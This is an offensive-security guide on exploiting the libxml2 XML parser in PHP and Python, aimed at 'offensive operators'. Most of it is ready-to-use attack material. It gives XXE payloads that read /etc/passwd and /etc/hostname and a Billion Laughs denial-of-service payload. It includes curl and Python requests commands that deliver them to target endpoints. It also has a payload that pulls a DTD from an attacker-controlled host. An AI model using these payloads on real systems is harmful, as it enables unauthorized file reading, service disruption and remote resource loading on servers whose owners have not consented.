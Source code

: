 ```yaml
---
title: Exploiting libxml2 Vulnerabilities in XML Parsing
description: Learn techniques to exploit XXE, entity expansion, and DTD bypass issues
  in libxml2.
keywords:
- libxml2 exploitation
- XXE vulnerability
- entity expansion
- DTD validation bypass
- PHP XML parsing
- Python lxml
- libxml2 security
- Billion Laughs attack
- XML external entity
---
```


# libxml2 Exploitation

## Context

The purpose of this guide is to provide offensive operators with the knowledge and skills necessary to exploit XXE (XML External Entity) and other related vulnerabilities in XML parsers that use the libxml2 library. This includes understanding and executing version-specific bypasses in PHP and Python environments. Readers should already be familiar with XML parsing concepts, external entities, DTD (Document Type Definition) validation, and XML External Entity attack techniques.

## Theory

### libxml2 Parsing and XXE Exposure

libxml2 is a widely-used C-based XML parsing library that is integral to XML processing within PHP and Python. Despite its extensive usage, libxml2 often has its XXE (XML External Entity) attack surface exposed due to default or improperly configured settings that support external entity resolution. This represents a vulnerability model where attackers can inject malicious external entities into XML data being processed by libxml2.

### libxml2 Entity Expansion and DTD Handling

Entity expansion attacks, such as the Billion Laughs attack, exploit the recursive definition of entities within XML to drain system resources. This vulnerability is significant in versions of libxml2 where entity expansion limits are not properly enforced, allowing attackers to submit XML files that cause resource exhaustion through recursive or nested entities.

### libxml2 Version-Specific Behaviors and Bypasses

The security posture of libxml2 varies by version, affecting default settings and mitigations. A notable example is PHP's change in behavior from version 8.0, where `libxml_disable_entity_loader()` became obsolete as entity loading is always disabled. In contrast, Python's lxml library, which uses libxml2 as a backend, may expose XXE vulnerabilities if external entity resolution is not explicitly disabled. Furthermore, improper sanitization or restriction of XML inputs can allow attackers to bypass DTD validation, highlighting the necessity to understand libxml2's differing security models across software environments.

## Practice

### Exploiting XXE in PHP with libxml2

To exploit libxml2 XXE vulnerabilities in a PHP environment:

- **Payload:**
  ```xml
  <?xml version="1.0"?>
  <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
  <foo>&xxe;</foo>
  ```
  Use this payload to attempt to read local files via external entity references.

- **Execution:**
  ```bash
  curl -X POST -d @payload.xml http://target/upload.php -H 'Content-Type: application/xml'
  ```
  Send this malicious XML to a PHP endpoint configured with libxml2.

- **Outcome:**
  Successful execution can result in sensitive data access, such as retrieving the contents of the `/etc/passwd` file via the XXE vulnerability in PHP-libxml2.

### Entity Expansion (Billion Laughs) Attack Against libxml2

To perform a denial of service attack using entity expansion:

- **Payload:**
  ```xml
  <?xml version="1.0"?>
  <!DOCTYPE lolz [
    <!ENTITY lol "lol">
    <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
    <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
    <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
  ]>
  <lolz>&lol3;</lolz>
  ```
  This recursive payload causes resource exhaustion.

- **Execution:**
  ```bash
  curl -X POST -d @billion_laughs.xml http://target/upload.php -H 'Content-Type: application/xml'
  ```
  Deliver the payload to the vulnerable endpoint to exhaust computational resources.

- **Outcome:**
  This can cause denial of service by overwhelming the system's CPU or memory, exploiting entity expansion in the vulnerable libxml2 parser.

### XXE Exploitation in Python lxml (libxml2 backend)

To exploit an XXE vulnerability using Python's lxml:

- **Payload:**
  ```xml
  <?xml version="1.0"?>
  <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/hostname"> ]>
  <foo>&xxe;</foo>
  ```
  Use this payload to extract sensitive data, such as the server's hostname.

- **Script for Exploitation:**
  ```python
  import requests
  with open('payload.xml', 'rb') as f:
      requests.post('http://target/api/xml', data=f, headers={'Content-Type': 'application/xml'})
  ```
  This Python script sends the XXE payload to an endpoint processed by lxml.

- **Outcome:**
  The attacker may successfully access sensitive information, such as the contents of `/etc/hostname`, by exploiting XXE within Python's lxml when configured improperly.

### Bypassing DTD Validation in libxml2

To bypass DTD validation using libxml2:

- **Payload:**
  ```xml
  <?xml version="1.0"?>
  <!DOCTYPE foo [
  <!ENTITY % dtd SYSTEM "http://attacker.com/malicious.dtd">
  %dtd;
  ]>
  <foo>bar</foo>
  ```
  This payload references an external DTD to load and execute attacker-controlled resources.

- **Execution:**
  ```bash
  curl -X POST -d @dtd_bypass.xml http://target/upload.php -H 'Content-Type: application/xml'
  ```
  Submit this payload to trigger a fetch and processing of the attacker-controlled DTD.

- **Outcome:**
  Such attacks may lead to protocol abuse by loading and executing remote resources, leveraging DTD processing vulnerabilities.

## Tools

- **curl**
- **requests**
- **Burp Suite**